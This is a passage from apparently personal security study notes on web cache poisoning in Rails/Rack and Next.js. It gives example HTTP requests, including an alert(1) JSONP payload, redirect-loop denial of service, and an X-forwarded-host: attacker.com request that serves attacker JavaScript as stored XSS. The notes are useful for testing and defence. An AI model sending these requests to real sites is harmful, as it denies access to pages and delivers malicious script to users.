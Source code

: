 		HTTP/1.1 200 OK  
		alert(1)//(some-data)
		```
		```
		GET /jsonp?callback=legit HTTP/1.1  
		Host: example.com  

		HTTP/1.1 200 OK  
		X-Cache: HIT  
		alert(1)//(some-data)
		```
		However, Rails sees three parameters - callback, utm_content, and callback. It prioritizes the second callback value, giving us full control over it.
	- **==Rack middleware==**: Ruby on Rails applications are often deployed alongside the **Rack middleware**. The Rack code below takes the value of the `x-forwarded-scheme` value and uses it as the scheme of the request. 
		![[Pasted image 20240930175507.png]]
		So sending the `x-forwarded-scheme: http` header would result into a `301 redirect` to the same location. If the response was cached by a CDN, it would cause a redirect loop, inherently denying access to the file.
		```
		GET /?xxx HTTP/2  
		Host: Redacted  
		X-Forwarded-Scheme: http  
		...
		
		HTTP/2 301 Moved Permanently  
		Date: Wed, 19 Jan 2022 17:16:13 GMT  
		Content-Type: text/html  
		Location: Redacted  
		Via: 1.1 vegur  
		Cf-Cache-Status: HIT  
		Age: 3
		```
		If the server also trusted the `X-forwarded-host` header on 301 redirects via `X-Forwarded-Scheme: https`, it allows an attacker to redirect JS files to attacker controlled JavaScript leading to stored XSS.
		```
		GET /static/main.js HTTP/1.1
		Host: redacted.com
		X-Forwarded-Scheme: https
		X-forwarded-host: attacker.com

		HTTP/1.1 301 Moved Permanently
		Location: https://attacker.com/static/main.js
		X-Cache: Hit From Cloudfront
		```
- **Next.js (Framework)**: 
	- **==CVE-2023-46298==**:  **x-middleware-prefetch** header in `Next.js` applications results in an empty JSON object `{}` as a response. If a CDN or caching system is present, this empty response can potentially be cached —depending on the cache rules configuration— rendering the targeted page **impractical and its content inaccessible**.
	- **==Rsc: 1==**: by sending a request with the `Rsc` header without using a cache-buster that is automatically added by `Next.js` framework to "prevent" cache poisoning, we can poison the cache but - whether this attack succeeds naturally depends on **the CDN and its cache-rules** to follow vary header.
	- **==x-invoke-status==**: overwrites the value of the `statusCode` property of the response object. Then the `/_error` page is returned (_whatever the HTTP code specified_). It is therefore possible to specify any HTTP code to **alter the response code and return the error page** (`/_error`). Generally, CDNs and caching systems are configured not to cache HTTP error codes. However, an attacker can specify the code `200` to align with cache rules and effectively “force” the caching of the error page